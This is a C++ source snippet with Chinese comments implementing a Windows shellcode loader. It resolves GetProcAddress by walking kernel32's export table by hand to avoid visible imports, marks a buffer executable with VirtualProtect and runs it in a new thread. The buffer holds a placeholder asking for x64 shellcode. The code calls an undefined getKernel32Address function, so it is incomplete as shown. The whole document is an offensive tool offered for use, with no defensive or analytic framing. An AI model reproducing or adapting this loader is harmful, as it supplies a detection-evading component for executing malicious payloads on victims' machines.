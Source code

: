 ```cpp

// 获取 GetProcAddress 函数的地址
DWORD64 getGetProcAddress(HMODULE hKernal32) {
    // 获取 DOS 头
    PIMAGE_DOS_HEADER baseAddr = (PIMAGE_DOS_HEADER)hKernal32;
    // 获取 NT 头
    PIMAGE_NT_HEADERS pImageNt = (PIMAGE_NT_HEADERS)((LONG64)baseAddr + baseAddr->e_lfanew);
    // 获取导出表
    PIMAGE_EXPORT_DIRECTORY exportDir = (PIMAGE_EXPORT_DIRECTORY)((LONG64)baseAddr + pImageNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    // 获取导出函数地址数组、导出函数名数组和导出函数序号数组
    PULONG RVAFunctions = (PULONG)((LONG64)baseAddr + exportDir->AddressOfFunctions);
    PULONG RVANames = (PULONG)((LONG64)baseAddr + exportDir->AddressOfNames);
    PUSHORT AddressOfNameOrdinals = (PUSHORT)((LONG64)baseAddr + exportDir->AddressOfNameOrdinals);

    // 遍历导出函数
    for (size_t i = 0; i < exportDir->NumberOfNames; i++) {
        // 获取当前函数地址
        LONG64 F_va_Tmp = (ULONG64)((LONG64)baseAddr + RVAFunctions[(USHORT)AddressOfNameOrdinals[i]]);
        // 获取当前函数名地址
        PUCHAR FunctionName = (PUCHAR)((LONG64)baseAddr + RVANames[i]);
        // 如果当前函数名是 "GetProcAddress"，返回其地址
        if (!strcmp((const char*)FunctionName, "GetProcAddress")) {
            return F_va_Tmp;
        }
    }
}

// 定义函数指针类型
typedef FARPROC(WINAPI* pGetProcAddress)(HMODULE, LPCSTR);
typedef BOOL(WINAPI* pVirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* pCreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* pWaitForSingleObject)(HANDLE, DWORD);

int main() {
    // 定义包含 shellcode 的缓冲区
    unsigned char buf[] =
        "填写x64的shellcode";

    // 获取 Kernel32.dll 的基地址和GetProcAddress函数地址
    HMODULE hKernal32 = getKernel32Address(); // 获取Kernel32.dll的基地址
    pGetProcAddress GetProcAddress = (pGetProcAddress)getGetProcAddress(hKernal32); // 获取GetProcAddress函数地址
    
    //获取其他所需API函数地址
    pVirtualProtect VirtualProtect = (pVirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");
    pCreateThread CreateThread = (pCreateThread)GetProcAddress(hKernal32, "CreateThread");
    pWaitForSingleObject WaitForSingleObject = (pWaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");
    
    //修改shellcode缓冲区的内存保护属性，以便执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);
    
    //创建新线程执行shellcode并等待其执行完成
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf, NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```
